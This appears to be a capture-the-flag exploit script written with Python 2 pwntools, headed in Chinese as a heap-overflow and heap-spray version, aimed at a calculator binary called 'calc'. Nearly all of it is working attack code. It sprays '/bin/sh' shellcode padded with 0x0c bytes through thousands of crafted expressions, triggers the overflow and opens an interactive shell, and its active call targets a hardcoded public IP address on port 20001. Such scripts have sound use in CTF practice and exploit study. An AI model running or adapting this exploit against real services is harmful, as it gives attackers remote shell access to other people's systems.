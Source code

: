 ### 堆溢出&堆喷版

```
from pwn import *;

port=20001
objname = "calc"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
#context(arch="i386", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

def attach():
    gdb.attach(io, execute="source bp")

def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    return data;

def write(data):
    io.send(str(data));

def writeline(data):
    io.sendline(str(data));

def varstr(a,b):
    data="var ";
    data+=a;
    data+=" = \"";
    data+=b;
    data+="\"";
    writeline(data);
    print readuntil(">")
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    spraydata=asm(shellcraft.sh());
    spraydata=spraydata.rjust(200,"\x0c");
    varstr("a","a");
    for i in range(6000):
        print i;
        if i % 6000 == 0:
            print "spraying %d"%(i)
        writeline("* "+"\""+spraydata+"\""+" 500")
        readuntil(">")
    writeline("a "*50)
    readuntil(">")
    io.interactive();
#attack()
attack("54.223.84.142")
```
